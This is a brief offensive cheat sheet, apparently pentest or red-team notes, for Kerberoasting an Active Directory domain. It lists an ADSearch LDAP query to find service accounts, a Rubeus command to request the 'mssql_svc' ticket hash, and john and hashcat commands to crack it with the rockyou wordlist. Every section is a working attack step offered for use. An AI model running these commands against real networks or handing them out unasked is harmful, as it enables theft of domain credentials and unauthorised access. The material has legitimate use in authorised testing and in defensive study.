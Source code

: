 # Get users that are kerberoastable in the Domain

```bash
execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(servicePrincipalName=*))" --attributes cn,servicePrincipalName,samAccountName
```

---

# Kerberoast a specific user with Rubeus

```bash
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /user:mssql_svc /nowrap
```

---

# Crack hashes from kerberoasted user

```bash
 john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt mssql_svc.hash
 hashcat -a 0 -m 13100 mssql_svc.hash /usr/share/wordlists/rockyou.txt
```

